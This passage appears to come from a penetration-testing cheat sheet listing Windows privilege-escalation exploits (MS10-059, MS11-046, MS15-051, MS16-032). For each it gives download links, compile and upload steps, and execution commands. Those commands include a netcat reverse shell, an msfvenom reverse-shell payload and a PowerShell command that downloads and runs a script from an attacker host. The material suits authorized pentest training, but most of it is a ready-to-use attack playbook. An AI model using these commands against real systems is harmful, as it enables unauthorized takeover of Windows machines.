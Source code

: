 **Requirements**: Listener on the attacking machine.

#### MS10-059
**Description**: Exploits a privilege escalation vulnerability in Windows Task Scheduler.

**Steps**:
1. Download: `https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe`
2. Upload `MS10-059.exe` to the target.
3. Set up a listener.
4. Execute:
   ```bash
   MS10-059.exe <attacker_ip> <port>
   ```

**Requirements**: Listener on the attacking machine.

#### MS11-046
**Description**: Exploits a vulnerability in the Windows Ancillary Function Driver (AFD).

**Steps**:
1. Download: `https://www.exploit-db.com/exploits/40564`
2. Install MinGW: `apt install mingw-w64`
3. Compile:
   ```bash
   i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
   ```
4. Upload and execute `MS11-046.exe` on the target.

**Requirements**: None (no listener required).

#### MS15-051
**Description**: Exploits a kernel vulnerability in Windows, allowing privilege escalation.

**Steps**:
1. Download: `https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip`
2. Identify the target architecture (x86 or x64).
3. Upload the appropriate `ms15-051x<arch>.exe` and `nc.exe` to the target.
4. Set up a listener.
5. Execute:
   ```bash
   ms15-051x64.exe "nc.exe <attacker_ip> 4444 -e cmd.exe"
   ```

**Requirements**: Listener on the attacking machine.

#### MS16-032
**Description**: Exploits a privilege escalation vulnerability in the Windows Secondary Logon Service.

**Steps**:
1. Download: `https://www.exploit-db.com/exploits/39719`
2. Generate a reverse shell:
   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=6666 -f exe > shell.exe
   ```
3. Modify the PowerShell script:
   - Replace `cmd.exe` with `shell.exe` in the script.
   - Add `Invoke-MS16-032` at the end of the script.
4. Upload `shell.exe` and the modified `ms16032.ps1` to the target.
5. Set up a listener.
6. Execute:
   ```bash
   C:\windows\sysnative\windowspowershell\v1.0\powershell IEX(New-Object Net.WebClient).downloadString('http://<attacker_ip>/ms16032.ps1')
   ```
